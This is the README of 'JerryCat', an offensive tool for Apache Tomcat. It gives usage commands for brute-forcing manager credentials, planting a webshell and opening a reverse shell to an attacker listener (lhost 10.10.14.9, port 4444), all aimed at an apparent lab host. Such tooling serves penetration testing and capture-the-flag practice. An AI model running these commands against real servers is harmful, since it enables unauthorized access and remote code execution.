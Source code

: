 <h1 align="center">JerryCat 🐭<h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0-orange.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  </br>
  <a href="https://twitter.com/Talace_" target="_blank">
    <img alt="Twitter: Talace_" src="https://img.shields.io/twitter/follow/Talace_.svg?style=social" />
  </a>
  <a href="https://twitter.com/LeandreOnizuka" target="_blank">
    <img alt="Twitter: LeandreOnizuka" src="https://img.shields.io/twitter/follow/LeandreOnizuka.svg?style=social" />
  </a>
</p>

## Features/Mode ⚒️

 - [x] [Brute Force (brute)](#brute-force)
 - [x] [Webshell (exec)](#webshell)
 - [x] [Reverse shell (reverse)](#reverse-shell)

## Setup ✨

Clone & install dependencies
```sh
git clone https://github.com/TheF0rceAwak5ns/JerryCat.git && cd JerryCat && pip install -r requirements.txt
```

## Usage - Unauthenticated attack 

### Brute Force
**without** a user list
```sh
python3 jerrycat.py brute http://10.10.10.95:8080/ -P wordlists/password-list-common-tomcat.txt
```
**with** a user list
```sh
python3 jerrycat.py brute http://10.10.10.95:8080/ -U /path/to/user/list -P wordlists/password-list-common-tomcat.txt
```
![brute_1](https://github.com/TheF0rceAwak5ns/JerryCat/assets/117742366/57a83800-6b2a-4d16-96ea-8b3ff469fffd)


## Usage - Authenticated attack

### Webshell
```sh
python3 jerrycat.py exec http://10.10.10.95:8080/ -u tomcat -p s3cret
```
![webshell](https://github.com/TheF0rceAwak5ns/JerryCat/assets/117742366/4588a9bb-f2ca-4a45-ac26-75cd1ee956d0)

### Reverse shell
```sh
python3 jerrycat.py reverse http://10.10.10.95:8080/ -u tomcat -p s3cret --lhost 10.10.14.9 --lport 4444
```
![reverse_1](https://github.com/TheF0rceAwak5ns/JerryCat/assets/117742366/5436ff31-6996-4a43-a055-00fce23bac64)




